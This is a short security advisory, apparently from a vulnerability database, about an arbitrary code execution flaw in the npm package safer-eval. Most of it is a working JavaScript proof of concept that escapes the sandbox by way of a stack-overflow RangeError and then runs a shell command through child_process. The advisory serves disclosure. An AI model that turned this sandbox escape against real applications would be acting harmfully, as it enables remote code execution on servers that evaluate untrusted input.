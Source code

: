 # Overview
[safer-eval](https://www.npmjs.com/package/safer-eval) is a safer approach for eval in node and browser.

Affected versions of this package are vulnerable to Arbitrary Code Execution via generating a  `RangeError: Maximum call stack size exceeded`.

# Proof of Concept (Credit: Jonathan Leitschuh)
```js
const theFunction = function () {
  const f = Buffer.prototype.write;
  const ft = {
    length: 10,
    utf8Write(){}
  };
  function r(i){
    var x = 0;
    try{
      x = r(i);
    }catch(e){}
    if(typeof(x)!=='number')
      return x;
    if(x!==i)
      return x+1;
    try{
      f.call(ft);
    }catch(e){
      return e;
    }
    return null;
  }
  var i=1;
  while(1){
    try{
      i=r(i).constructor.constructor("return process")();
      break;
    }catch(x){
      i++;
    }
  }
  return i.mainModule.require("child_process").execSync("id").toString()
};
const untrusted = `(${theFunction})()`;

console.log(saferEval(untrusted));
```
